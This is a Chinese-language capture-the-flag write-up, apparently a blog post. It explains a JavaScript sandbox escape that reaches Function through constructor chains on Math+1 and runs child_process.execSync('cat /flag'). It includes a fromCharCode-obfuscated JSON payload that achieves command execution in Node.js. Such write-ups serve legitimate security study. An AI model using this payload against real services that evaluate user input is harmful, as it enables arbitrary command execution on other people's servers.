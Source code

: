 ```
(Math=>
        (Math=Math.constructor,
                Math.x=Math.constructor("return process.mainModule.require('child_process').execSync('cat /flag').toString()")()
        )
)(Math+1)
```

最外层是一个箭头函数和自调用函数，因为题目的限制，通过传入Math+1获取到了一个字符串对象，然后访问这个字符串对象的constructor，获取string类的原型，再获取string类原型的原型，得到了function类原型，然后用”return process.mainModule.require(‘child_process’).execSync(‘cat /flag’).toString()”创建出了一个匿名函数，并且也进行了自调用，完成了命令执行

同时也解释了为什么之前可以用Math去调用String的fromCharCode方法，因为原型的获取，我们获得了String和Function两个原型，String将数字转换为字符串，而Function将我们获得的字符串作为函数执行，再通过自调用函数这个语法，将函数创建之后即调用，完成了命令执行

一般的箭头函数都是用`{}`，但是因为这题只能用括号，而正好有用括号的语法，所以也可以用括号。

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9cbd6574eee66bf08e53073a6252c6eb.png)

就相当于是：

```
Function(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,
                    99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,
                    46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,
                    95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,
                    121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()

```

类似`Function()()`的格式，里面的函数也同样可以调用，成功执行代码，得到flag。

payload

```
{"e":"(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode(114, 101, 116, 117, 114, 110, 32, 103, 108, 111, 98, 97, 108, 46, 112, 114, 111, 99, 101, 115, 115, 46, 109, 97, 105, 110, 77, 111, 100, 117, 108, 101, 46, 99, 111, 110, 115, 116, 114, 117, 99, 116, 111, 114, 46, 95, 108, 111, 97, 100, 40, 39, 99, 104, 105, 108, 100, 95, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 101, 120, 101, 99, 83, 121, 110, 99, 40, 39, 99, 97, 116, 32, 47, 102, 108, 97, 103, 39, 41, 46, 116, 111, 83, 116, 114, 105, 110, 103, 40, 41))()))(Math+1)", "first":"1","second":[1]}
```



**自调用:(()=>())()**
			可以使用()代替{}

- 这时和{}的写法有所不同
- 不需要return了
- (参数1, 参数2, …, 参数N) => ( 语句1，语句2，语句3…… ) ，执行顺序从左到右，已最右边的语句结果作为返回值

![](https://ooo.0x0.ooo/2024/11/03/OHaIlg.png)
